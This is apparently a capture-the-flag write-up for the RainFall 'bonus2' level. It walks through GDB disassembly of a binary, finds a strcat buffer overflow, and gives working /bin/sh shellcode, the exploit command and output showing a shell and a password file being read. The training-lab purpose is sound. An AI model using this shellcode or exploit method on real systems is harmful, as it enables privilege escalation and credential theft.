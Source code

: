 # Bonus2

## Exploring the binary
```shell
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 phantom
bonus2@RainFall:~$ ./bonus2 phantom phantom
Hello phantom
```
It seems that this binary accepts 2 argument values and prints 'Hello' together with <code>av[1]</code>.

## GDB analysis
```shell
Dump of assembler code for function main:
   0x08048529 <+0>:	push   %ebp
   0x0804852a <+1>:	mov    %esp,%ebp
   0x0804852c <+3>:	push   %edi
   0x0804852d <+4>:	push   %esi
   0x0804852e <+5>:	push   %ebx
   0x0804852f <+6>:	and    $0xfffffff0,%esp
   0x08048532 <+9>:	sub    $0xa0,%esp
   0x08048538 <+15>:	cmpl   $0x3,0x8(%ebp)
   0x0804853c <+19>:	je     0x8048548 <main+31>
   0x0804853e <+21>:	mov    $0x1,%eax
   0x08048543 <+26>:	jmp    0x8048630 <main+263>
   0x08048548 <+31>:	lea    0x50(%esp),%ebx
   0x0804854c <+35>:	mov    $0x0,%eax
   0x08048551 <+40>:	mov    $0x13,%edx
   0x08048556 <+45>:	mov    %ebx,%edi
   0x08048558 <+47>:	mov    %edx,%ecx
   0x0804855a <+49>:	rep stos %eax,%es:(%edi)
   0x0804855c <+51>:	mov    0xc(%ebp),%eax
   0x0804855f <+54>:	add    $0x4,%eax
   0x08048562 <+57>:	mov    (%eax),%eax
   0x08048564 <+59>:	movl   $0x28,0x8(%esp)
   0x0804856c <+67>:	mov    %eax,0x4(%esp)
   0x08048570 <+71>:	lea    0x50(%esp),%eax
   0x08048574 <+75>:	mov    %eax,(%esp)
   0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>
   0x0804857c <+83>:	mov    0xc(%ebp),%eax
   0x0804857f <+86>:	add    $0x8,%eax
   0x08048582 <+89>:	mov    (%eax),%eax
   0x08048584 <+91>:	movl   $0x20,0x8(%esp)
   0x0804858c <+99>:	mov    %eax,0x4(%esp)
   0x08048590 <+103>:	lea    0x50(%esp),%eax
   0x08048594 <+107>:	add    $0x28,%eax
   0x08048597 <+110>:	mov    %eax,(%esp)
   0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>
   0x0804859f <+118>:	movl   $0x8048738,(%esp)
   0x080485a6 <+125>:	call   0x8048380 <getenv@plt>
   0x080485ab <+130>:	mov    %eax,0x9c(%esp)
   0x080485b2 <+137>:	cmpl   $0x0,0x9c(%esp)
   0x080485ba <+145>:	je     0x8048618 <main+239>
   0x080485bc <+147>:	movl   $0x2,0x8(%esp)
   0x080485c4 <+155>:	movl   $0x804873d,0x4(%esp)
   0x080485cc <+163>:	mov    0x9c(%esp),%eax
   0x080485d3 <+170>:	mov    %eax,(%esp)
   0x080485d6 <+173>:	call   0x8048360 <memcmp@plt>
   0x080485db <+178>:	test   %eax,%eax
   0x080485dd <+180>:	jne    0x80485eb <main+194>
   0x080485df <+182>:	movl   $0x1,0x8049988
   0x080485e9 <+192>:	jmp    0x8048618 <main+239>
   0x080485eb <+194>:	movl   $0x2,0x8(%esp)
   0x080485f3 <+202>:	movl   $0x8048740,0x4(%esp)
   0x080485fb <+210>:	mov    0x9c(%esp),%eax
   0x08048602 <+217>:	mov    %eax,(%esp)
   0x08048605 <+220>:	call   0x8048360 <memcmp@plt>
   0x0804860a <+225>:	test   %eax,%eax
   0x0804860c <+227>:	jne    0x8048618 <main+239>
   0x0804860e <+229>:	movl   $0x2,0x8049988
   0x08048618 <+239>:	mov    %esp,%edx
   0x0804861a <+241>:	lea    0x50(%esp),%ebx
   0x0804861e <+245>:	mov    $0x13,%eax
   0x08048623 <+250>:	mov    %edx,%edi
   0x08048625 <+252>:	mov    %ebx,%esi
   0x08048627 <+254>:	mov    %eax,%ecx
   0x08048629 <+256>:	rep movsl %ds:(%esi),%es:(%edi)
   0x0804862b <+258>:	call   0x8048484 <greetuser>
   0x08048630 <+263>:	lea    -0xc(%ebp),%esp
   0x08048633 <+266>:	pop    %ebx
   0x08048634 <+267>:	pop    %esi
   0x08048635 <+268>:	pop    %edi
   0x08048636 <+269>:	pop    %ebp
   0x08048637 <+270>:	ret
```
The main function calls <code>getenv()</code> to retrieve an environmental variable. It makes a few <code>memcmp()</code> calls and also calls the <code>greetuser()</code> function. The env is copied into <code>0x8048738</code> and compared to 2 different strings:
```shell
(gdb) x/s 0x8048738
0x8048738:	 "LANG"
(gdb) x/s 0x804873d
0x804873d:	 "fi"
(gdb) x/s 0x8048740
0x8048740:	 "nl"
```
Depending on the result of the comparison, a variable at <code>0x08049988</code> is assigned a value of <code>0x1</code> (1) or <code>0x2</code> (2). We then look for all global variables to identify it:
``` shell
All defined variables:

Non-debugging symbols:
0x08048708  _fp_hw
0x0804870c  _IO_stdin_used
0x0804886c  __FRAME_END__
0x08049870  __CTOR_LIST__
0x08049870  __init_array_end
0x08049870  __init_array_start
0x08049874  __CTOR_END__
0x08049878  __DTOR_LIST__
0x0804987c  __DTOR_END__
0x08049880  __JCR_END__
0x08049880  __JCR_LIST__
0x08049884  _DYNAMIC
0x08049950  _GLOBAL_OFFSET_TABLE_
0x08049978  __data_start
0x08049978  data_start
0x0804997c  __dso_handle
0x08049980  completed.6159
0x08049984  dtor_idx.6161
0x08049988  language
```
Now we know that the global variable <code>language</code> is set to either 1 or 2, depending on whether <code>LANG</code> is set to Finnish or Dutch. Next, we look at the <code>greetuser()</code> function:
```shell
Dump of assembler code for function greetuser:
   0x08048484 <+0>:	push   %ebp
   0x08048485 <+1>:	mov    %esp,%ebp
   0x08048487 <+3>:	sub    $0x58,%esp
   0x0804848a <+6>:	mov    0x8049988,%eax
   0x0804848f <+11>:	cmp    $0x1,%eax
   0x08048492 <+14>:	je     0x80484ba <greetuser+54>
   0x08048494 <+16>:	cmp    $0x2,%eax
   0x08048497 <+19>:	je     0x80484e9 <greetuser+101>
   0x08048499 <+21>:	test   %eax,%eax
   0x0804849b <+23>:	jne    0x804850a <greetuser+134>
   0x0804849d <+25>:	mov    $0x8048710,%edx
   0x080484a2 <+30>:	lea    -0x48(%ebp),%eax
   0x080484a5 <+33>:	mov    (%edx),%ecx
   0x080484a7 <+35>:	mov    %ecx,(%eax)
   0x080484a9 <+37>:	movzwl 0x4(%edx),%ecx
   0x080484ad <+41>:	mov    %cx,0x4(%eax)
   0x080484b1 <+45>:	movzbl 0x6(%edx),%edx
   0x080484b5 <+49>:	mov    %dl,0x6(%eax)
   0x080484b8 <+52>:	jmp    0x804850a <greetuser+134>
   0x080484ba <+54>:	mov    $0x8048717,%edx
   0x080484bf <+59>:	lea    -0x48(%ebp),%eax
   0x080484c2 <+62>:	mov    (%edx),%ecx
   0x080484c4 <+64>:	mov    %ecx,(%eax)
   0x080484c6 <+66>:	mov    0x4(%edx),%ecx
   0x080484c9 <+69>:	mov    %ecx,0x4(%eax)
   0x080484cc <+72>:	mov    0x8(%edx),%ecx
   0x080484cf <+75>:	mov    %ecx,0x8(%eax)
   0x080484d2 <+78>:	mov    0xc(%edx),%ecx
   0x080484d5 <+81>:	mov    %ecx,0xc(%eax)
   0x080484d8 <+84>:	movzwl 0x10(%edx),%ecx
   0x080484dc <+88>:	mov    %cx,0x10(%eax)
   0x080484e0 <+92>:	movzbl 0x12(%edx),%edx
   0x080484e4 <+96>:	mov    %dl,0x12(%eax)
   0x080484e7 <+99>:	jmp    0x804850a <greetuser+134>
   0x080484e9 <+101>:	mov    $0x804872a,%edx
   0x080484ee <+106>:	lea    -0x48(%ebp),%eax
   0x080484f1 <+109>:	mov    (%edx),%ecx
   0x080484f3 <+111>:	mov    %ecx,(%eax)
   0x080484f5 <+113>:	mov    0x4(%edx),%ecx
   0x080484f8 <+116>:	mov    %ecx,0x4(%eax)
   0x080484fb <+119>:	mov    0x8(%edx),%ecx
   0x080484fe <+122>:	mov    %ecx,0x8(%eax)
   0x08048501 <+125>:	movzwl 0xc(%edx),%edx
   0x08048505 <+129>:	mov    %dx,0xc(%eax)
   0x08048509 <+133>:	nop
   0x0804850a <+134>:	lea    0x8(%ebp),%eax
   0x0804850d <+137>:	mov    %eax,0x4(%esp)
   0x08048511 <+141>:	lea    -0x48(%ebp),%eax
   0x08048514 <+144>:	mov    %eax,(%esp)
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>
   0x0804851c <+152>:	lea    -0x48(%ebp),%eax
   0x0804851f <+155>:	mov    %eax,(%esp)
   0x08048522 <+158>:	call   0x8048390 <puts@plt>
   0x08048527 <+163>:	leave
   0x08048528 <+164>:	ret
```
This function uses <code>strcat()</code> to join two strings. Depending on the value of <code>language</code>, it loads the first string from three different addresses: 1 for Finnish (jump to +54), 2 for Dutch (jump to +101), and a default for English (jump to +134). It then joins this first string with the string passed to the function (<code>av[2]</code>). The final string, which greets the second string entered in the binary call, is displayed using <code>puts()</code>.
```shell
(gdb) x/s 0x8048717
0x8048717:	 "Hyvää päivää "
(gdb) x/s 0x804872a
0x804872a:	 "Goedemiddag! "
(gdb) x/s 0x8048710
0x8048710:	 "Hello "
```

## Buffer overrun attack
Since the <code>greetuser()</code> function uses <code>strcat()</code>, it will be vulnerable to a <code>buffer overflow</code> attack once again. To find the offset, we use the ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)) tool as we did previously and set the environmental variable <code>LANG</code> to one of the two languages to make the string longer compared to English. It does not matter which language we choose, because both foreign language greetings have the same length.
``` shell
bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) run $(python -c "print '\x90' * 40") 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Starting program: /home/user/bonus2/bonus2 $(python -c "print '\x90' * 40") 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'
Hyvää päivää ����������������������������������������Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()

```
Now we know the offset is equal to 18. As there is no direct call to <code>/bin/sh</code> in the whole code, we opt to use <code>shellcode</code> as in <code>bonus0</code>:
``` shell
bonus2@RainFall:~$ export SCODE=`python -c 'print("\x90" * 150 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`
bonus2@RainFall:/tmp$ cc addr.c -o addr
bonus2@RainFall:/tmp$ ./addr
SCODE set at 0xbffff85c
```
Based on the information from <code>main()</code>, we know that <code>0x28</code> (40) bytes are copied from <code>av[1]</code>. With this knowledge, we can now construct the exploit.

## Exploit
``` shell
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 18 + "\xbf\xff\xf8\x5c"[::-1]')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB\���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
